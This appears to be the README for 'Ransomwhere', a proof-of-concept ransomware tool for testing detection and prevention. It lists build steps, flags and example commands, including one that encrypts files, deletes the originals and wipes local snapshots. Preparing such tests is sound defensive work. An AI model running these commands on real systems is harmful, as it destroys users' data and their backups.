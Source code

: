 # Ransomwhere

A Proof of Concept ransomware sample that encrypts your files to test out your ransomware detection & prevention strategies.
If no arguments are provided, `ransomwhere`will automatically execute the `encrypt` mode without deleting the original files.

I am not responsible for any damage caused by this software.

## Building

```shell
# with make and Go installed
% make build
```


## Usage

```shell
% ransomwhere -h
Usage of ransomwhere:
  -delete
        Delete files after encrypting.
  -log string
        The log level to use. (default "error")
  -mode string
        Encrypt or decrypt the ransomware files. (default "encrypt")
  -path string
        Path to the directory where to traverse files to ransom. (default "/Users/niels")
  -wipe
        Wipe local snapshots while encrypting.
```

## Examples

```shell
# straight from source, encrypt in our home directory
% make FLAGS="-log=warn -delete=false -mode=encrypt"

# from the binary, encrypt /home/ransom/
% ./app -log=warn -delete=false -mode=encrypt -path=/home/ransom/

# encrypt, delete original files and wipe backups like a real ransomware (DANGEROUS)
% ./app -delete=true -wipe=true

# revert the ransom operation and restore any files
% ./app -mode=decrypt
```
